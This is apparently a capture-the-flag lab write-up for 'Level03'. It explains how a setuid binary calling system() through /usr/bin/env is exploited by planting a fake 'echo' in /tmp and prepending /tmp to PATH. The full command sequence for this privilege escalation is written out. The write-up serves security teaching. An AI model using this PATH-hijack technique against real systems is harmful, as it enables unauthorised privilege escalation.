 # Level03

[FRENCH version](README.md)

## How to recover the flag

At first I thought level03 was a file.

A cat hit on it, you can see that it's an executable.

Also, it has strange permissions for an executable:

```
-rwsr-sr-x 1 flag03 level03 8627 Mar 5 2016 level03*
```

The file has a Set-User-ID bit.

It allows a user to run the program with the owner's rights, this is how sudo allows us to run commands as "root".

So it should allow us to execute it with the rights of flag03.

See this video for clearer explanations: https://www.youtube.com/watch?v=2gHp_CgUets

Once launched, it only displays 'Exploit me'.

Cutter launches.

In the main function you can see this code:

```
void main(void)
{
    undefined4 uVar1;
    undefined4 uVar2;

    uVar1 = getegid();
    uVar2 = geteuid();
    setresgid(uVar1, uVar1, uVar1);
    setresuid(uVar2, uVar2, uVar2);
    system("/usr/bin/env echo Exploit me");
    return;
}
```

According to the man:

```
getegid() returns the effective group ID of the calling process.

geteuid() returns the effective user ID of the calling process.

setresuid() sets the real user ID, the effective user ID, and the saved set-user-ID of the calling process.

setresgid() sets the real GID, effective GID, and saved set-group-ID of the calling process (and always modifies the file system GID to be the same as the effective GID)

system() executes a command specified in command by calling /bin/sh -c command, and returns after the command has been completed. During execution of the command, SIGCHLD will be blocked, and SIGINT and SIGQUIT will be ignored.
```

During the execution, we can see that the uid and gid are valid 2003 (uid and gid of level03)

You can change the uid and gid of the executable using gdb:

see: https://scc.ustc.edu.cn/zlsc/sugon/intel/debugger/cl/commandref/gdb_mode/cmd_set_variable.htm

After many unsuccessful attempts to change the text of "/usr/bin/env echo Exploit me", I abandoned this method.

While doing a test on my host computer, with the same code, I realized that, even when run with flag03 rights, /usr/bin/env keeps the environment variables of level03.

So we can do a path redirection.

Moreover, /tmp is writable.

We can then exploit the path!

```
echo "/bin/getflag" > /tmp/echo

chmod +x /tmp/echo

export PATH=/tmp:$PATH

/level03
```

## The flag

The flag read is the one that can be used to connect to level04.
